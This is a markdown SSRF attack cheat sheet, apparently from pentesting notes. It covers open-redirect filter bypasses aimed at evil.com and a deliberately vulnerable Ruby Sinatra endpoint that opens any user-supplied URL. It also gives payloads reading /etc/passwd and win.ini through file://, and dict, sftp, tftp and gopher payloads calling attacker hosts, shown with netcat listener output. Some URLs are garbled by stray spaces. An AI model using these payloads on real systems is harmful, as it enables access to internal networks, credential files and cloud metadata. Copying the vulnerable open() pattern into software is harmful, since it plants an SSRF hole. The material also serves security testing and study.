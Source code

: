 ## What can we do with SSRF 
1. SSRF to reflection XSS    
2. Try to use URL to access internal resources and make the server perform operations (file: ///, dict: //, ftp: //, gopher: // ..)    
3. Scan internal networks and ports    
4. If it is running on a cloud instance, you can try to get metadata    

### Change the writing of IP address
Some developers will filter out the intranet IP by regular matching the passed URL parameters. For example, the following regular expressions are used:    

The bypassing technique here is similar to the URL redirection bypass or SSRF bypassing technique.
```
^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$
^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```

1. Single slash "/" bypass   

`https://www.xxx.com/redirect.php?url=/www.evil.com`

2. Missing protocol bypass

`https://www.xxx.com/redirect.php?url=//www.evil.com`

3. Multi-slash "/" prefix bypass

`https://www.xxx.com/redirect.php?url=///www.evil.com`

`https://www.xxx.com/redirect.php?url=////www.evil.com`

4. Bypass with "@"

`https://www.xxx.com/redirect.php?url=https://www.xxx.com@www.evil.com`

5. Use backslash "\" to bypass

`https://www.xxx.com/redirect.php?url=https://www.evil.com\https://www.xxx.com/`

6. Bypass with "#"

`https://www.xxx.com/redirect.php?url=https://www.evil.com#https://www.xxx.com/`

7. Bypass with "?"

`https://www.xxx.com/redirect.php?url=https://www.evil.com?www.xxx.com`

8. Bypass with "\\"

`https://www.xxx.com/redirect.php?url=https://www.evil.com\\www.xxx.com`

9. Use "." to bypass

`https://www.xxx.com/redirect.php?url=.evil`         
`https://www.xxx.com/redirect.php?url=.evil.com`

10. Repeating special characters to bypass

`https://www.xxx.com/redirect.php?url=///www.evil.com// ..`
`https://www.xxx.com/redirect.php?url=////www.evil.com// ..`


#### As talked about in "Understanding SSRF" there are 2 types of SSRF 
A. Show response to attacker (basic)     
B. Do now show response (blind)   

#### Basic 
As mentioned above, it shows the response to the attacker, so after the server gets the URL requested by the attacker, it will send the response back to the attacker.
DEMO (using Ruby).
Install the following packages and run the code
`gem install sinatra`
```ruby

require 'sinatra'
require 'open-uri'
 
get '/' do
  format 'RESPONSE: %s', open(params[:url]).read
```
The above code will open the local server port 4567 (taken from Jobert's POST hes in the references somewhere)    
`http: // localhost: 4567 /? url = contacts will open the contacts file and display the response in the front end`   
`http: // localhost: 4567 /? url = / etc / passwd will open etc / passwd and respond to the service`   
`http: // localhost: 4567 /? url = https: //google.com will request google.com on the server and display the response`      

Just get the file from an external site with a malicious payload with a content type of html. 
Example:   
`Example: http: // localhost: 4567 /? Url = http: //brutelogic.com.br/poc.svg`    

#### Test URL patterns 
When we found ssrf, the first thing to do was test all the wrappers that worked.    
```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```

#### file: //-
File is used to get files from the file system    
`http://example.com/ssrf.php?url=file:///C:/Windows/win.ini`   
`http://example.com/ssrf.php?url=file:///etc/passwd`   
If the server blocks http requests to external sites or whitelists, you can simply use the following URL pattern to make the request:    

#### dict: //-
DICT URL scheme is used to represent a list of definitions or words available using the DICT protocol:
```

http://example.com/ssrf.php?dict://evil.com:1337/
 
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 31126)
CLIENT libcurl 7.40.0
```

#### sftp: //-
Sftp stands for SSH File Transfer Protocol, or Secure File Transfer Protocol. It is an embedded protocol of SSH and is similar to SSH in secure connections.    
```

http://example.com/ssrf.php?url=sftp://evil.com:1337/
 
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
SSH-2.0-libssh2_1.4.2
```

#### ldap: // or ldaps: // or ldapi: //-
LDAP stands for Lightweight Directory Access Protocol. It is an application protocol for managing and accessing distributed directory information services through an IP network.
`http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit`   
`http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit`   
`http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit`   

#### tftp: //- 
Simple File Transfer Protocol is a simple lockstep file transfer protocol that allows clients to retrieve files from a remote host or place files on a remote host.    
```
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET
 
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout3
```

#### gopher: //-
Gopher is a distributed document delivery service. It allows users to explore, search and retrieve information residing in different locations in a seamless way.     
```
http://example.com/ssrf.php?url=http://attacker.com/gopher.php
gopher.php (host it on acttacker.com):-
<?php
   header('Location: gopher://evil.com:1337/_Hi%0Assrf%0Atest');
?>
 
evil.com:# nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 49398)
Hi
ssrf
test
```